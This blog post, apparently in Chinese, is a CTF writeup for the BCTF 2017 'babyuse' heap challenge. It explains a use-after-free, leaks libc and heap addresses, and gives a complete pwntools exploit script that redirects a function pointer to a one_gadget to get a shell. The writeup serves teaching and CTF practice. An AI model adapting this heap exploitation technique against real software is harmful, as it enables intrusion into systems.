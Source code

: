 ```yaml
---
layout:     post
title:      "2017-04-19-bctf-2017-babyuse-writeup"
subtitle:   "how to heap"
date:       2017-04-19 19:30:00 -0800
author:     "Dafeng"
header-img: "img/post-bg-universe.jpg"
header-mask: 0.3
catalog: true
tags:
    - CTF
    - Heap
    - Pwn
---
```


## Bctf babyuse

### 简述
32位ELF文件，没有符号表，提供so库

查看程序开启的保护机制：

    $ checksec --file babyuse
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled

差不多保护全开，不过对于ctf题目已经习以为常了，不开保护才不正常呢！

### 分析程序
    $ ./babyuse
     _                                         
    |_)_. _ _o _ ._  |  _  _. _| _  /\ ._ _    
    | (_|_>_>|(_)| | |_(/_(_|(_|_> /--\| | |\/
                                            /  

    Menu:
    1. Buy a Gun
    2. Select a Gun
    3. List Guns
    4. Rename a Gun
    5. Use a Gun
    6. Drop a Gun
    7. Exit

通过IDA反汇编分析可以找到程序，在select a gun 之后， 然后use a gun，但是在use a gun时获取gun struct指针后没有进行判断。如果我们在select a gun之后Drop a gun, 我们再去使用触发了UAF漏洞，而在Use a gun 里有一个打印函数，打印gun’s name,如果访问的是已经被释放的chunk，可以泄露chunk结构里面的内容。

### 利用步骤
> 不详细介绍原理，详细介绍请参考 [Useful skills for CTF #堆利用](https://stfpeak.github.io/2017/04/12/ctf-base/)

1. 泄露libc地址，买三把抢(名字大小为64)，然后选择第0把，删除第0把，再使用第0把，然后就可以泄露libc中unsorted bin 的地址，从而确定libc基址；
2. 选择第1把，再删除第1把，再使用第一把就可以泄露上一步骤free的smallbin的地址；
3. 通过分析可知： Use a gun调用的方法是通过  *(*ptr)的方式查找函数地址，我们知道只要把最后的指针指向libc中的[one gadget](https://github.com/david942j/one_gadget)地址就可以拿到shell；
4. 直接改写堆不可以成功，思路是通过改写一个堆块，将内容指向堆上的另一个地址，这样的话通过两层指针的寻址可以跳转到我们希望跳转的地址。
5. 通过选择1块，然后删除两块，会在fastbin中存在两个fastbin，然后buy a gun这样的话，令被选择的块为内容块，填充器内容，便可实现跳转。


### Exploit
``` python
#! /usr/bin/python
from pwn import *
context.log_level = 'debug'

def buy(type, len):
  p.recvuntil('7. Exit\n')
  p.sendline('1')
  p.recvuntil('2. QBZ95\n')
  p.sendline(str(type))
  p.recvuntil("name")
  p.sendline(str(len))
  p.recvuntil("Input name:\n")
  p.sendline("a" * len)

def buy2(type, len, payload):
  p.recvuntil('7. Exit\n')
  p.sendline('1')
  p.recvuntil('2. QBZ95\n')
  p.sendline(str(type))
  p.recvuntil("name")
  p.sendline(str(len))
  p.recvuntil("Input name:\n")
  p.sendline(payload)

def select(id):
  p.recvuntil('7. Exit\n')
  p.sendline('2')
  p.recvuntil('Select a gun')
  p.sendline(str(id))

def list():
  p.recvuntil('7. Exit\n')
  p.sendline('3')

def rename(id,lenth,name):
  p.recvuntil('7. Exit')
  p.sendline('4')
  p.recvuntil('to rename:\n')
  p.sendline(str(id))
  p.recvuntil('name')
  p.sendline(str(lenth))
  p.recvuntil('Input name:\n')
  p.sendline(name)

def use():
  p.recvuntil('7. Exit\n')
  p.sendline('5')
  #p.recvuntil('4. Main menu\n')
  #p.sendline(str(type))

def use2(type):
  p.recvuntil('7. Exit\n')
  p.sendline('5')
  p.recvuntil('4. Main menu\n')
  p.sendline(str(type))

def delete(id):
  p.recvuntil('7. Exit\n')
  p.sendline('6')
  p.recvuntil('to delete:\n')
  p.sendline(str(id))

if __name__ == '__main__':
    print "exp start..."
    # p = remote('202.112.51.247', 3456)
    p = process('./babyuse')

    #leak libc
    buy(1, 64)
    buy(1, 64)
    buy(1, 64)
    select(0)
    delete(0)
    use()
    p.recvuntil("Select gun ")
    lib_leak = u32(p.recv(4))
    print hex(lib_leak)
    print proc.pidof(p)
    # the one gadget offset in libc is 0x3ac69
    exec_addr = lib_leak - 0x1b27b0 + 0x3ac69
    print hex(exec_addr)
    p.sendline("4")

    #leak heap addr
    select(1)
    delete(1)
    use()
    p.recvuntil("Select gun ")
    heap_leak = u32(p.recv(4))
    print hex(heap_leak)
    p.sendline("4")

    buy(1, 64)
    buy(1, 64)

    rename(1, 64, p32(exec_addr) + p32(exec_addr) + p32(exec_addr))
    select(1)
    delete(1)
    delete(0)

    buy2(1, 15, p32(heap_leak + 0x110) + p32(heap_leak + 0x110))
    use2(1)
    p.interactive()
    p.close()

```

PS: [BCTF 2017 - PoisonousMilk](http://uaf.io/exploitation/2017/04/17/BCTF-2017-PoisonousMilk.html)

鉴于这题大神已经分析的非常好了，这里就不用赘述了。
